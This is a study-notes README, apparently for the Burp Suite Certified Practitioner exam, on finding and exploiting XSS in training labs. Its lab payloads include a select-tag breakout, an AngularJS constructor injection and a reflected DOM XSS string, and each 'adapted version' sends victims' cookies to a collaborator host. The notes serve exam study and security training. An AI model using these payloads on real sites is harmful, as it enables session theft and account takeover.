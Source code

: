 **ATTENTION:** If you want some others tips for the exam, I recommend you to read this article:
>https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/

Detailed approach about each vulnerability will be covered in **Approach** sections.


# XSS
## Approach
You see these two on your exam? Target Scan them!  
**Attention:** For my two exam attemps I didn't get XSS through comment section because it was just disabled.  
**Search input**  
![image](https://user-images.githubusercontent.com/58632878/224571361-737909a7-99b0-4b6f-8757-e353ec3040b8.png)  
  
**Comment section**  
![image](https://user-images.githubusercontent.com/58632878/224571400-ea983a43-ca62-41b7-bac5-a2dcd095e97d.png)  
  
You've got a XSS with scan? Cool, now you need to adapt your XSS payload to send it to victim via exploit-server. It's quite complicated job to do, but payloads from labs below and their adapted versions will surely help you.  

## Labs
### 1. DOM XSS in document.write sink using source location.search inside a select element.
>Add parameter to URL product?productId=1&storeId=kek and check out it is in dropbox on the product site. Check HTML code and find out, that storeId is in ```<select>``` tag. Create the next payload:  
```
storeId=kek"></select><script>alert(1)</script>
```
**Adapted version**
```
"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```


### 2. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded.  
```
{{constructor.constructor('alert(1)')()}}
```
**Adapted version**
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
```

### 3. Reflected DOM XSS
```
\"-alert()}//
```
**Adapted version**
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
